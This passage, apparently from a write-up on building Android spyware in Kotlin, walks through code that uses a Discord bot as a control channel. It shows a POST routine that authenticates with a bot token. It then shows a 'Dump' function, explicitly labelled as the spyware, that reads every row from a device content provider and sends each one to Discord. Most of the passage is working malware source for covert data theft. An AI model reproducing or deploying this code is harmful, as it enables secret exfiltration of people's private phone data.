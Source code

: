 ```kotlin

    // Perform HTTP POST request asynchronously
    GlobalScope.launch(Dispatchers.IO) {
        try {
            // Set up the connection
            val connection = url.openConnection() as HttpURLConnection
            connection.requestMethod = "POST"
            connection.setRequestProperty("Authorization", "Bot $token") // Set the Authorization header with the bot token
            connection.setRequestProperty("Content-Type", "application/json")
            connection.doOutput = true

            // Write the message content to the output stream
            withContext(Dispatchers.IO) {
                val os: OutputStream = connection.outputStream
                os.write(json.toString().toByteArray())
                os.flush()
            }

            // Get the response code
            val responseCode = connection.responseCode
            if (responseCode == HttpURLConnection.HTTP_OK) {
                println("Message sent successfully!")
            } else {
                println("Failed to send message. Response Code: $responseCode")
            }
            connection.disconnect()

        } catch (e: Exception) {
            println("Error sending message: ${e.message}")
        }
    }
}
```

Moving on to `sendMessage` and `sendDiscordFileMessage`, both the function basically send message and files to the discord server as the bot. There are other functions which is important to start and maintain the discord bot in order to interact with it.

### Part 3

Here's the part where I started to code the function to perform the spyware.

```kotlin
fun Dump(context: Context,client: DiscordWebSocketClient,contentUri: Uri, logTag: String) {
    context.contentResolver.query(contentUri, null, null, null, null)?.use { cursor ->
        if (cursor.moveToFirst()) {
            do {
                val line = buildString {
                    for (i in 0 until cursor.columnCount) {
                        if (i > 0) append(", ")
                        append(cursor.getString(i))
                    }
                }
                Log.i(logTag, line)
                client.sendMessage(logTag, line)

            } while (cursor.moveToNext())
        }
    }
}
```
